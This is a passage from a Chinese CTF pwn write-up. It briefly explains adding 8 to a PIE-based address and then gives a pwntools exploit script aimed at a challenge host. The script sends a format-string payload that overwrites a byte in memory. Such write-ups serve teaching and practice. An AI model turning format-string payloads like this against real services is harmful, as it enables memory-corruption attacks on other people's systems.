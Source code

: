 可以看到，我们只要找到对应地址（理论是 PIE 基址）加个 8 就可以，因为下面留了 `main` 的地址，当然，我改过了，进去以后没什么好说的了

#### 1-2 exp

```python
#!/usr/bin/env python

'''
    author: Lufiende
'''

from pwn import *
from LibcSearcher import *
import ctypes

filename = "pwn_patched"
libcname = "/home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/libc6_2.35-0ubuntu3.8_amd64/lib/x86_64-linux-gnu/libc.so.6"
host = '39.106.16.204'
port = 12138
filearch = 'amd64'
isAttach = 0
context.log_level = 'debug'
context.os = 'linux'
context.arch = filearch
context.terminal = ["/mnt/c/Windows/System32/cmd.exe", '/c', 'start', 'wsl.exe']

elf = context.binary = ELF(filename)
if libcname:
    libc = ELF(libcname)

gdbscript = '''
b *$rebase(0x1279)
set debug-file-directory /home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/libc6-dbg_2.35-0ubuntu3.8_amd64/usr/lib/debug
set directories /home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/glibc-source_2.35-0ubuntu3.8_all/usr/src/glibc/glibc-2.35
'''

processarg = {}

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript = gdbscript, env=processarg)
    elif args.REMOTE:
        return remote(host, port)
    elif args.ATTACH:
        global isAttach
        isAttach = 1
        return process(elf.path, env=processarg)
    else:
        return process(elf.path, env=processarg)

def dbg():
    if isAttach:
        gdb.attach(io, gdbscript = gdbscript)
        
io = start()

############################################

payload='%{}c%{}$hhn'.format(8,30).encode()
payload=payload.ljust(0x10, b'a')
io.send(payload)
```